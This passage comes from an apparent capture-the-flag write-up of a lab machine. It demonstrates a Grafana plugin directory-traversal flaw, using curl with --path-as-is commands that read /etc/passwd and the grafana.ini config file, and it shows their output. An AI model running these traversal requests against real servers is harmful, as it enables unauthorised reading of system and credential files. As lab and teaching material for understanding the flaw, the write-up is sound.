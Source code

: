 

#### POC

Rather than use the script, I'll grab a plugin at random from the list
and try to access the URL on Ambassador with `curl` the same way it did
in the script. I'll use `--path-as-is` to prevent `curl` from fixing
things like `../`. It fetches `/etc/passwd` successfully, showing file
read:



    oxdf@hacky$ curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...
    developer:x:1000:1000:developer:/home/developer:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    grafana:x:113:118::/usr/share/grafana:/bin/false
    mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
    consul:x:997:997::/home/consul:/bin/false



### Grafana Access

#### grafana.ini

I can't seem to read anything interesting in `/home/developer`, which
suggests the webserver is running as another user (likely www-data).

There's not much of interested to pull from the Hugo site, and I can
read `/var/www.md/index.md` as the main page.

Grafana stores a config in `/etc/grafana/grafana.ini`, according to [the
docs](https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/).
I'm able to read it:



    oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
    ##################### Grafana Configuration Example #####################
    #
    # Everything has defaults so you only need to uncomment things you want to
    # change

    # possible values : production, development
    ;app_mode = production
